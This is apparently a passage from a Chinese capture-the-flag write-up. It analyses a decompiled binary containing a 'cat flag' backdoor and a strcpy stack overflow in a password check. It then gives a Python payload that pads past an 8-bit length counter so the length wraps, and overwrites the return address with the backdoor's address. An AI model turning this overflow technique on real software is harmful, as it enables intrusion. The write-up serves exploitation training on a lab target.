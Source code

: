 what_is_this()

```cpp
int what_is_this()
{
  return system("cat flag");
}
```

显然是个“后门”

再对函数进行分析

```cpp
char *__cdecl check_passwd(char *s)
{
  char *result; // eax
  char dest; // [esp+4h] [ebp-14h]
  unsigned __int8 v3; // [esp+Fh] [ebp-9h]

  v3 = strlen(s);
  if ( v3 <= 3u || v3 > 8u )
  {
    puts("Invalid Password");
    result = (char *)fflush(stdout);
  }
  else
  {
    puts("Success");
    fflush(stdout);
    result = strcpy(&dest, s);
  }
  return result;
}
```
> char \*strcpy(char\* dest, const char \*src);
> strcpy 把从src地址开始且含有NULL结束符的字符串复制到以dest开始的地址空间
> src和dest所指内存区域不可以重叠且dest必须有足够的空间来容纳src的字符串。

也就是说strcpy是不会检查目标地址有是否够用的空间，我们可以利用这个弱点进行栈溢出，修改result的值使之在return的时候构造what_is_this()的伪栈帧，返回flag值。

```python
sh_addr=0x0804868B
payload='a'*(0x14+0x4)+p32(sh_addr)
```

但是构造的长度显然不满足字符串长度的限制

但是注意到v3是int_8类型，最大能表示255,根据整数的存储原理，我们可以加一些字符让其溢出回到3到8之间

### Payload

```python
sh_addr=0x0804868B
payload='a'*(0x14+0x4)+p32(sh_addr)+'a'*(256-0x14-0x4-0x4+4)#int_8->256=1
```
